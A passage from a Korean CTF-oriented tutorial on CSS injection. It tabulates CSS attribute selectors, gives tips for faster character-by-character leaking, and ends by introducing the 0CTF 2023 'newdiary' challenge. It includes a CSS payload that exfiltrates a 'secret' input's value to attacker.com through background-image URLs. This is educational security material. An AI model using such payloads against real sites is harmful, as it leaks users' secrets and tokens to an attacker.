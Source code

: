 
### CSS 특성 선택자

CSS 특성 선택자는 요소의 특성을 선택할 수 있는 기능을 제공합니다. 
<br>

| 구문 | 설명 |
|------|------|
| `[attr]` | `attr` 이라는 이름의 특성을 가진 요소를 선택합니다. |
| `[attr=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. |
| `[attr~=value]` | `attr` 이라는 이름의 특성값이 정확히 `value` 인 요소를 선택합니다. `attr` 특성은 공백으로 구분한 여러 개의 값을 가지고 있을 수 있습니다. |
| `[attr^=value]` | `attr` 이라는 특성값을 가지고 있으며, 접두사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
| `[attr$=value]` | `attr` 이라는 특성값을 가지고 있으며, 접미사로 `value` 가 값에 포함되어 있으면 이 요소를 선택합니다. |
|  `[attr*=value]` | `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 이 요소를 선택합니다. |



CSS injection은 기본적으로 CSS 특성 선택자를 이용하여 조건이 맞을 경우에 외부서버로 요청을 보내 HTML요소의 값을 유출합니다.  

---

#### tip!

CTF 문제를 풀 때 많은 참가자들이 `[attr^=value]` 선택자만을 사용하여 CSS injection을 수행합니다.

이 방식은 각 문자를 하나씩 유출해야 하므로, 이론상 (사용 가능한 문자 수 X 유출하려는 요소의 데이터 길이)만큼의 요청이 필요해 익스플로잇을 하는데 많은 시간이 걸립니다.

하지만 더욱 효율적인 방법이 있습니다!

1. `[attr$=value]` 선택자 활용: 
   접두사(`^`)뿐만 아니라 접미사(`$`)도 함께 유출하면 필요한 요청 횟수를 절반으로 줄일 수 있습니다.

2. 병렬 요청 활용: 
   여러 선택자를 한 번에 요청하여 익스플로잇 시간을 대폭 단축할 수 있습니다. 

**코드예시**
```css
<style>
input[name="secret"][value^="da"] { background: url(https://attacker.com/leak?q=da) }
input[name="secret"][value^="db"] { background: url(https://attacker.com/leak?q=db) }
input[name="secret"][value^="dc"] { background: url(https://attacker.com/leak?q=dc) }
/* ... 중략 ... */
input[name="secret"][value^="dz"] { background: url(https://attacker.com/leak?q=dz) }
</style>

```

이렇게 하면 한 번의 요청으로 여러 가능성을 동시에 테스트할 수 있어, 전체 익스플로잇 과정의 속도를 크게 향상시킬 수 있습니다.

이러한 최적화 기법들을 적절히 조합하면, CSS injection 공격의 효율성을 크게 높일 수 있습니다.

---
### 0CTF 2023-newdiary
2023년 0CTF에서 출제된 newdiary라는 문제와 함께 일명 **'One-shot CSS injection'**을 설명하도록 하겠습니다. 
